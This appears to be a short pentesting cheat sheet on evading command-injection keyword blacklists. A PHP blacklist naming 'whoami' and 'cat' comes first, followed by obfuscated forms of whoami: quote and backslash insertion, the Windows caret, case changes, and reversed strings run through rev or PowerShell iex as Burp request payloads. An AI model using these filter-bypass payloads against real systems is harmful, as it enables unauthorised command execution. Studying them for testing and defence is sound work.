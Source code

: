  ```php
$blacklist = ['whoami', 'cat', ...SNIP...];
foreach ($blacklist as $word) {
    if (strpos('$_POST['ip']', $word) !== false) {
        echo "Invalid input";
    }
}
```
### Linux and Windows
* Add characters that are usually ignored
* Such as `'` and `"`
```shell
w'h'o'am'i
w"h"o"am"i
```
Can't mix the quotes and the number must be even
### Linux Only 
Insert Linux characters in the middle. 
`\` `$@`
```bash
who$@ami
w\ho\am\i
```
These do not need to be even
### Windows Only
Insert Windows Only characters 
```cmd
who^ami
```
## Advanced Command Obfuscation 
### Case Manipulation
Change random cases of words
#### Windows
```PowerShell
WhOamI
```
#### Linux/ Bash
Is case sensitive 
```shell
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```
May need to sort filtered spaces and special characters with this stuff

```bash
$(a="WhOaMi";printf %s "${a,,}")
```
###  Reversed Commands
#### Linux
```shell
 echo 'whoami' | rev
```
Burp Request
```shell
$(rev<<<'imaohw')
```
#### Windows
```powershell
"whoami"[-1..-20] -join ''
```
Burp Request 
```powershell
iex "$('imaohw'[-1..-20] -join '')"
```